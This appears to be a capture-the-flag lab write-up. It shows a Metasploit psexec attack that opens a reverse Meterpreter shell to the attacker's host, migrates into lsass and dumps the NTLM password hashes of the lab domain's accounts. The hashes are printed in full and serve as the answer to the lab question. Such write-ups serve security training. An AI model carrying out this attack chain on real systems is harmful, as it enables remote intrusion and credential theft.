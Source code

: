 
*What is the NTLM hash of the jchambers user?*

My session died quite a few times, but it was good practice for the steps above :)

This is what I did after re-doing the first step (Start Meterpreter session):

```bash
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 10.8.177.116:4444 
[*] 10.10.222.233:445 - Connecting to the server...
[*] 10.10.222.233:445 - Authenticating to 10.10.222.233:445 as user 'ballen'...
[*] 10.10.222.233:445 - Selecting PowerShell target
[*] 10.10.222.233:445 - Executing the payload...
[+] 10.10.222.233:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.222.233
[*] Meterpreter session 1 opened (10.8.177.116:4444 -> 10.10.222.233:61639) at 2025-07-31 06:51:48 -0400

meterpreter > ps | grep lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 736  620   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > migrate 736
[*] Migrating from 1140 to 736...
[*] Migration completed successfully.
```

---


Now we should have access to `hashdump`:

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:d5367448484dfb184b92ffdd4d5280f2:::
meterpreter > 
[*] 10.10.222.233 - Meterpreter session 1 closed.  Reason: Died
```

